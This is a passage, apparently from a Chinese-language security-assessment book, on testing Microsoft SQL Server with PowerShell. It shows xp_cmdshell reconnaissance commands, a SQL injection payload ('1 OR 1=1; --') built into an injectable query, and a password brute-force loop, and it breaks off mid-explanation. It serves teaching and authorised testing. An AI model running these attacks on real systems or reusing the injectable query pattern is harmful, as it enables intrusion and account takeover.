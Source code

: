     +   查询以检查 SQL Server 服务账户权限：

        ```
         ```sql

        EXEC xp_cmdshell 'whoami';

        ```
        ```

    +   查询以检查与 SQL Server 相关的服务：

        ```
          ```sql

        EXEC xp_cmdshell 'sc query | findstr /i "SQL"';

        ```
        ```

这些是一些常见的 SQL 查询和检查，可能是 Microsoft SQL Server 2016 安全评估的一部分。具体使用的查询可能根据组织的安全策略、评估的范围以及执行评估的安全专业人员使用的工具和脚本有所不同。进行此类评估时，必须负责任地执行，遵循最佳实践，并获得适当的授权。

### SQL 注入测试

SQL 注入是一种常见的 Web 应用漏洞。PowerShell 可以通过构造恶意查询模拟 SQL 注入攻击，利用应用程序中的潜在漏洞：

```
 $productId = "1 OR 1=1; --"
$command = $connection.CreateCommand()
$command.CommandText = "SELECT * FROM Products WHERE ProductID = $productId;"
```

在这个示例中，我们执行以下操作：

1.  通过将 **productId** 设置为 **"1 OR** **1=1; --"** 构造一个 SQL 注入有效载荷。

1.  执行可能容易受到 SQL 注入攻击的查询。

### 暴力破解攻击

PowerShell 脚本可以自动化对 SQL Server 账户的暴力破解攻击，以测试用户密码的强度：

```
 $username = "admin"
$passwords = Get-Content "passwords.txt"  # Load a list of passwords from a file
foreach ($password in $passwords) {
    $command = $connection.CreateCommand()
    $command.CommandText = "SELECT * FROM Users WHERE Username = '$username' AND Password = '$password';"
    $result = $command.ExecuteScalar()
    if ($result -ne $null) {
        Write-Host "Login successful for $username with password $password"
        break
    } }
```

在这个示例中，我们执行以下操作：
